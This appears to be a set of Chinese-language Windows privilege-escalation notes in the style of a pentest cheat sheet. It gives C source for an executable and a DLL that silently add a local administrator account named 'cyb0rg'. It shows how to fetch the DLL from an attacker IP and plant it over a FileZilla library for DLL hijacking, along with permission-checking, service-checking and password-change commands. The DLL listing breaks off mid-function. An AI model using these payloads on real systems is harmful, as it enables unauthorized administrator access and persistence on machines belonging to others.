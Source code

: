 ```
icacls "C:\Windows\System32"
```

### 检查服务是否为自启动

```
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

### 重启

```
shutdown /r /t 0
```

### 打包添加用户Exe

```
命令：x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user cyb0rg 123@Abc123 /add");
  i = system ("net localgroup administrators cyb0rg /add");
  
  return 0;
}
```

## 修改用户密码

```
net user admin admin123
```



## DLL劫持

### dll编译

```
x86_64-w64-mingw32-gcc dlladduser.cpp --shared -o dlladduser.dll

iwr -uri http://192.168.45.161/fuwujiechi/dlladduser.dll -Outfile dlladduser.dll
move dlladduser.dll 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user cyb0rg 123@Abc123 /add");
```